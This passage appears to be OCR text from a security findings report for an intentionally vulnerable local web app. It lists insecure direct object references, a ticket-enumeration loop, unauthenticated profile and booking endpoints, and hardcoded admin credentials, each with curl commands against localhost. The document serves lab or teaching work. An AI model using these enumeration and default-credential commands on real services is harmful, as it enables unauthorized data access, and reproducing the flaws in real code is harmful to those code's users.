 **Exploitation**:
```bash
# Access tickets by number
curl http://localhost:5001/api/tickets/by-number/1001 \
  -H "Authorization: Bearer YOUR_TOKEN"

# Enumerate tickets
for i in {1001..2000}; do
  curl -s http://localhost:5001/api/tickets/by-number/$i \
    -H "Authorization: Bearer YOUR_TOKEN" | grep -q "success" && echo "Ticket $i found"
done
```

### 5.3 Broken Access Control in User Profiles
**Location**: `server/routes/user.js` - Line 35-50  
**Severity**: Medium  
**Description**: View any user profile without authorization.

**Exploitation**:
```bash
# Access other users' profiles
curl http://localhost:5001/api/user/1
curl http://localhost:5001/api/user/admin
```

### 5.4 Privilege Escalation
**Location**: `server/routes/admin.js` - Line 8-20  
**Severity**: Critical  
**Description**: Hardcoded admin credentials.

**Exploitation**:
```bash
# Login as admin
curl -X POST http://localhost:5001/api/admin/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "admin123"}'
```

---

## 6. Information Disclosure

### 6.1 Sensitive Data Exposure
**Location**: `server/routes/bookings.js` - Line 90-95  
**Severity**: Medium  
**Description**: Returns all bookings without authentication.

**Exploitation**:
```bash
# Get all bookings
curl http://localhost:5001/api/bookings
```
